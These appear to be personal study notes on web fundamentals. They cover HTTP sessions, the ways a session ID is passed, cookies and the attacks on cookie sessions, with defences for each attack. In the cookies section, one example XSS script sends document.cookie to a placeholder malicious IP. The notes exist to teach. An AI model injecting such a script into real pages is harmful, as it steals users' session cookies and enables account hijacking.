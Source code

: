# General Web info
## Infrastructure
![[Pasted image 20240608192826.png]]
## URL structure
![[Pasted image 20240608192908.png]]
## HTTP sessions
- **Problem**:
	- HTTP is stateless: every request is independent from the previous ones
	- BUT: dynamic web application require the ability to maintain some kind of sessions
- **How to solve it?**
- **Sessions!** 
	- Avoid log-ins in for every requested page 
	- Store user preferences 
	- Keep track of past actions of the user (e.g., shopping cart)

- Implemented by web applications themselves
- Session information are transmitted between the client and the server
- How to transmit session information?
	- **payload HTTP** 
	  `<INPUT TYPE="hidden" NAME="sessionid" VALUE="7456">`
	- **URL**  
	  `http://www.example.com/page.php?sessionid=7456`
	- **header HTTP (e.g., Cookie)** 
	  `GET /page.php HTTP/1.1`
	  `Host: www.example.com`
	  `...`
	  `Cookie: sessionid=7456`
	  `...`

### Cookies
- Data created by the server and memorized by the client 
- Transmitted between client and server using HTTP header
- **Cookies are information that is stored in your browser and which relates to the page you visit.** 
	- For example, you visit a webshop and add something in the shopping cart. When you come back the next day, that cookie will still be set, and you can still see what you have in the shopping cart.
![[Pasted image 20240608193305.png]]

**==But cookies can also be used for massive surveillance.==**
- Or to keep track of your authentication (session cookie). If it is possible to steal a session cookie, then others can gain access to your data.
- E.g.,
  `<script>`
  `document.write('![](http://{MaliciousIpAddress}:8000?cookie='+document.cookie+')’);`
  `</script>`
- **[[cURL]]** is a command-line tool to send Cookies

### Security of cookie sessions
- Critical element (e.g., used for authentication)
- Risk of bypassing authentication schemas!
- Should be considered valid for a small amount of time
- **Attacks**: 
	- hijacking → use SSL/TLS 
	- prediction → use a good PRNG 
	- brute force → increase id length 
	- stealing (XSS) → we'll see...